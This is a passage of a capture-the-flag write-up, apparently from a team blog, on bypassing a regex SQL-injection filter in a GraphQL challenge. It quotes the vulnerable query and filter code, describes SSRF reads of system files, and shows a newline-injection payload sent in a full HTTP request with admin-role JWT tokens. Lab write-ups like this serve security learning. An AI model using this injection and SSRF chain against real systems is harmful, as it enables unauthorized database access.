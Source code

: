 - Now we can try the graphql search query to exploit the sqli injection possibly?
- At glance seemed like a easy SQLI `SELECT * FROM users WHERE name like '%${args.name}%'` but not :(

```
------schema.js---------
if (detectSqli(args.name)) {
          return generateError(400, "Username must only contain letters, numbers, and spaces.")
        }


------security.js---------
function detectSqli (query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]/
    return pattern.test(query)
}
```

- The `detectSqli` function blocks all the possible special characters in our graphql query before appending to the sql query.
- Got stuck at this point for a while,i thought there is no way to bypass the regex and started to do lot of workarounds.
- Maybe gopher to sql? we have db username and pass [FAILED]
- Tried reading lot of system files through ssrf [NOTHING INTERESTING]
- Then i tried to validate the regex once again! [best decision]

<img src="https://github.com/blog-tamilctf/blog-tamilctf.github.io/blob/main/assets/img/nl.jpg?raw=true">

- !!!! New line injection , we found our regex bypass!
- With that in hand, i tried to inject the newline sql injection to break the query and noticed whether any error appeared.[ `{getDataByName(name:"John\n '"){name%20department%20isPresent}}`]

```
POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTcxNjIxMDUzMX0.2gwPTRqbPfj4Axbz2B3t4HNWHHdcgIXgTCcCyGaupW0 HTTP/1.1
Host: host:30586
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

url=http://0.0.0.0:1337/graphql?query={getDataByName(name:"John\n '"){name%20department%20isPresent}}%26token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJyZXF1aXJlZFJvbGUiOiJhZG1pbiIsImlhdCI6MTcxNjIxMjM3M30.Cf49E4-_dHEoTBfMfplbKikF1ns-LDjWR5ftHG-9bfk
```
